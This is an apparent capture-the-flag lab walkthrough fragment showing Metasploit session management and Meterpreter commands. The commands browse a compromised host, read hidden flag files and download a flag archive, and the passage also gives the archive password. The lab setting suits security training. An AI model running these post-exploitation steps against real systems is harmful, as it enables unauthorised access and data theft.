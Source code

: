 `-n`: Provide a name for your session. 

```
sessions -n xoda -i 1
sessions
```

Interact with it.

```
sessions xoda
```

That's how to switch between sessions, rename sessions, etc. That's pretty much it in regards to managing your sessions. You can kill sessions, manage their names, interact with a session, and specify a command that you want to run in a particular session, etc.

```
sessions 1
```

```
meterpreter > ls
meterpreter > pwd
meterpreter > cd ..
meterpreter > ls
```

```
meterpreter > cat flag1
meterpreter > edit flag1
meterpreter > cd "Secret Files"
meterpreter > ls
meterpreter > cat .flag2
meterpreter > cd ..
meterpreter > ls
meterpreter > download flag5.zip
meterpreter > ^Z
```

Unzip that flag archive.

```
ls
unzip flag5.zip
```

The password is 56784.

```
ls
cat list
```

```
MD5 of /bin/bash
```

```
sessions 1
```
